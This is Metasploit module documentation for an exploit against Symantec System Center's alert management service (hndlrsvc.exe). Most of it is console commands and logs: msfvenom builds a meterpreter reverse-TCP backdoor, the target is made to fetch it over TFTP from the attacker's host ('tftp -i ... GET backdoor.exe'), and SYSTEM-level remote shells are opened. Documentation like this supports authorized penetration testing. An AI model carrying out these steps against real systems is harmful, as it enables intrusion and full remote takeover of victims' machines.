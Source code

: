## Vulnerable Application

  This module exploits Symantec System Center's alert management system (hndlrsvc.exe) with an arbitrary command execution.  The payload is uploaded via TFTP
  and then executed on the system.
  This is part of Symantec AntiVirus Corporate Edition 8.0-10.1.7

## Verification Steps

  1. Install the application
  2. Start msfconsole
  3. Do: `use exploit/windows/antivirus/ams_hndlrsvc`
  4. Do: `set rhost`
  5. Do: `exploit`
  6. You should get a shell.

## Options

  **CMD**

  Optional command line to run instead of attempting to directly inject a payload

  **RPORT**

  The port the service is running on.  Default is 38292.

## Scenarios

### Manual Upload and Execute

If the module doesn't work for a shell, it's possible to run the CMD twice to emulate the steps the module takes.

1. start atftpd: `atftpd --daemon --port=69 /tftpboot/`
2. create payload: `msfvenom -p windows/meterpreter/reverse_tcp LHOST=1.1.1.1 lport=4444 -f exe -o /tftpboot/backdoor.exe`
3. start metasploit
4. start a multihandler
5. load the module: `use exploit/windows/antivirus/ams_hndlrsvc`
6. use ams: `set CMD 'tftp -i 1.1.1.1 GET backdoor.exe'`
7. run
8. use ams: `set cmd 'backdoor.exe'`
9. run

  ```
root@kali:~/metasploit-framework# ./msfconsole 

msf > ifconfig
[*] exec: ifconfig

eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 1.1.1.1  netmask 255.255.255.0  broadcast 192.168.3.255
        inet6 fe80::20c:29ff:fef9:62a1  prefixlen 64  scopeid 0x20<link>
        ether 00:0c:29:f9:1f:a1  txqueuelen 1000  (Ethernet)
        RX packets 70933  bytes 39287343 (37.4 MiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 11688  bytes 3788654 (3.6 MiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

msf > use exploit/multi/handler 
payload => windows/meterpreter/reverse_tcp
msf exploit(handler) > set lhost 1.1.1.1
lhost => 1.1.1.1
msf exploit(handler) > set lport 4444
lport => 4444
msf exploit(handler) > exploit -j
[*] Exploit running as background job.

[*] Started reverse TCP handler on 1.1.1.1:4444 
[*] Starting the payload handler...
msf exploit(handler) > use exploit/windows/antivirus/ams_hndlrsvc 
msf exploit(ams_hndlrsvc) > set rhost 2.2.2.2
rhost => 2.2.2.2
msf exploit(ams_hndlrsvc) > set lport 9999
lport => 9999
msf exploit(ams_hndlrsvc) > set cmd 'tftp -i 1.1.1.1 GET backdoor.exe'
CMD => tftp -i 1.1.1.1 GET backdoor.exe
msf exploit(ams_hndlrsvc) > run

[*] Started reverse TCP handler on 1.1.1.1:9999 
[*] 2.2.2.2:38292 - Executing command 'tftp -i 1.1.1.1 GET backdoor.exe'
[*] Exploit completed, but no session was created.
msf exploit(ams_hndlrsvc) > set cmd 'backdoor.exe'
cmd => backdoor.exe
msf exploit(ams_hndlrsvc) > run

[*] Started reverse TCP handler on 1.1.1.1:9999 
[*] 2.2.2.2:38292 - Executing command 'backdoor.exe'
[*] Sending stage (957999 bytes) to 2.2.2.2
[*] Meterpreter session 1 opened (1.1.1.1:4444 -> 2.2.2.2:1038) at 2016-09-30 11:59:13 -0400
[*] Exploit completed, but no session was created.
msf exploit(ams_hndlrsvc) > sessions -l

Active sessions
===============

  Id  Type                   Information                 Connection
  --  ----                   -----------                 ----------
  1   meterpreter x86/win32  NT AUTHORITY\SYSTEM @ WEBB  1.1.1.1:4444 -> 2.2.2.2:1038 (2.2.2.2)

msf exploit(ams_hndlrsvc) > sessions -v

Active sessions
===============

  Session ID: 1
        Type: meterpreter x86/win32
        Info: NT AUTHORITY\SYSTEM @ WEBB
      Tunnel: 1.1.1.1:4444 -> 2.2.2.2:1038 (2.2.2.2)
         Via: exploit/multi/handler
        UUID: 0a85ec1678bc8465/x86=1/windows=1/2016-09-30T15:59:12Z
   MachineID: 8b2889ec93a961f2cc3f2db4620def57
     CheckIn: 28s ago @ 2016-09-30 12:00:15 -0400
  Registered: No



msf exploit(ams_hndlrsvc) > 

  ```
  
### Using Standard Options
  
  ```
msf > use exploit/windows/antivirus/ams_hndlrsvc 
msf exploit(ams_hndlrsvc) > set rhost 2.2.2.2
rhost => 2.2.2.2
msf exploit(ams_hndlrsvc) > set lport 4445
lport => 4445
msf exploit(ams_hndlrsvc) > show options

Module options (exploit/windows/antivirus/ams_hndlrsvc):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   CMD                     no        Execute this command instead of using command stager
   LHOST  1.1.1.1     no        The listen IP address from where the victim downloads the payload
   RHOST  2.2.2.2   yes       The target address
   RPORT  38292            yes       The target port


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     1.1.1.1     yes       The listen address
   LPORT     4445             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows Universal


msf exploit(ams_hndlrsvc) > exploit

[*] Started reverse TCP handler on 1.1.1.1:4445 
[*] 2.2.2.2:38292 - Sending request to 2.2.2.2:38292
[+] 2.2.2.2:38292 - tftp -i 1.1.1.1 GET OQTAVJBVWZH.exe
[*] 2.2.2.2:38292 - Attempting to execute the payload...
[+] 2.2.2.2:38292 - OQTAVJBVWZH.exe
[*] Sending stage (957999 bytes) to 2.2.2.2
[*] Meterpreter session 1 opened (1.1.1.1:4445 -> 2.2.2.2:1041) at 2016-09-30 12:13:18 -0400

meterpreter > 

  ```
